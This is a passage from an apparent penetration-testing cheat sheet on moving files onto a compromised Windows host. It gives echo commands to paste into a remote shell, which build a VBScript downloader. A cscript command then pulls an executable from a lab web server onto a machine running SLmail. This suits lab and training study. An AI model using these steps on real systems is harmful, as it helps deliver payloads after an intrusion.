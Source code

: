 [Back to Table of Contents](#Table-of-Contents)

### VBScript

VBScript Transfers

```
# Copy the file you want to transfer to /var/www/ and restart apache service

$ cp msgfmt.net.exe /var/www
$ /etc/init.d/apache2 restart
```

Copy and paste this command in remote shell
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

Check if the wget.vbs file is created
```
C:\Program Files\SLmail\System>dir wget.vbs
```

Run the command to copy the file from the web server
```
C:\Program Files\SLmail\System>cscript wget.vbs http://192.168.56.102/msgfmt.net.exe msgfmt.exe
```

[Back to Table of Contents](#Table-of-Contents)

### Powershell
